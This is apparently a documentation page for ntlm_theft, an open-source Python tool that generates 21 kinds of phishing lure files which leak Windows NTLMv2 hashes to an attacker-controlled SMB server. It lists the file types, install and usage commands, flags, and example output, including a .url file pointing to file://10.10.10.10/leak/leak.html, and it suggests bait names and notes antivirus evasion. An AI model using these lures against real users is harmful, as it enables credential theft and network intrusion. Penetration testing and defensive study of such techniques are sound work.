 ```yaml
---
title : "ntlm_theft"
# pre : ' '
description : "A tool for generating multiple types of NTLMv2 hash theft files."
date : 2022-09-19T08:41:52+02:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## ntlm_theft

A tool for generating multiple types of NTLMv2 hash theft files.

`ntlm_theft` is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.

The benefits of these file types over say macro based documents or exploit documents are that all of these are built using "intended functionality". None were flagged by Windows Defender Antivirus on June 2020, and 17 of the 21 attacks worked on a fully patched Windows 10 host.  

`ntlm_theft` supports the following attack types:

* Browse to Folder Containing
  * .url – via URL field
  * .url – via ICONFILE field
  * .lnk - via icon_location field
  * .scf – via ICONFILE field (Not Working on Latest Windows)
  * autorun.inf via OPEN field (Not Working on Latest Windows)
  * desktop.ini - via IconResource field (Not Working on Latest Windows)
* Open Document
  * .xml – via Microsoft Word external stylesheet
  * .xml – via Microsoft Word includepicture field
  * .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
  * .docx – via Microsoft Word includepicture field
  * .docx – via Microsoft Word external template
  * .docx – via Microsoft Word frameset webSettings
  * .xlsx - via Microsoft Excel external cell
  * .wax - via Windows Media Player playlist (Better, primary open)
  * .asx – via Windows Media Player playlist (Better, primary open)
  * .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
  * .jnlp – via Java external jar
  * .application – via any Browser (Must be served via a browser downloaded or won’t run)
* Open Document and Accept Popup
  * .pdf – via Adobe Acrobat Reader
* Click Link in Chat Program
  * .txt – formatted link to paste into Zoom chat

## Installation

```plain
git clone https://github.com/Greenwolf/ntlm_theft.git
python3 -m pip install xlsxwriter
```

## Usage

```plain
ntlm_theft.py --generate all --server <ip_of_smb_catcher_server> --filename <base_file_name>
```

## Flags

```plain
ntlm_theft by Jacob Wilkin(Greenwolf)

options:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -vv, --verbose        Verbose Mode
  -g {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}, --generate {scf,xlsx,docx,jnlp,zoom,autoruninf,rtf,m3u,desktopini,lnk,wax,application,htm,all,url,pdf,xml,modern,asx}
                        Choose to generate all files or a specific filetype
  -s SERVER, --server SERVER
                        The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
  -f FILENAME, --filename FILENAME
                        The base filename without extension, can be renamed later (test, Board-Meeting2020, Bonus_Payment_Q4)
```

Required parameters.

```plain
-g, --generate  : Choose to generate all files or a specific filetype
-s, --server    : The IP address of your SMB hash capture server (Responder, impacket ntlmrelayx, Metasploit auxiliary/server/capture/smb, etc)
-f, --filename  : The base filename without extension, can be renamed later (eg: test, Board-Meeting2020, Bonus_Payment_Q4)
```

## Examples

### Create LNK file(s)

```plain
$ python3 ntlm_theft.py -g lnk -s 10.10.10.10 -f generated-file    
Created: generated-file/generated-file.lnk (BROWSE TO FOLDER)
Generation Complete.
```

### Create URL file(s)

```plain
$ python3 ntlm_theft.py -g url -s 10.10.10.10 -f generated-url  
Created: generated-url/generated-url-(url).url (BROWSE TO FOLDER)
Created: generated-url/generated-url-(icon).url (BROWSE TO FOLDER)
Generation Complete.

$ cat generated-url/generated-url-\(url\).url 
[InternetShortcut]
URL=file://10.10.10.10/leak/leak.html
```

## URL List

- [Github.com - ntlm_theft](https://github.com/Greenwolf/ntlm_theft)
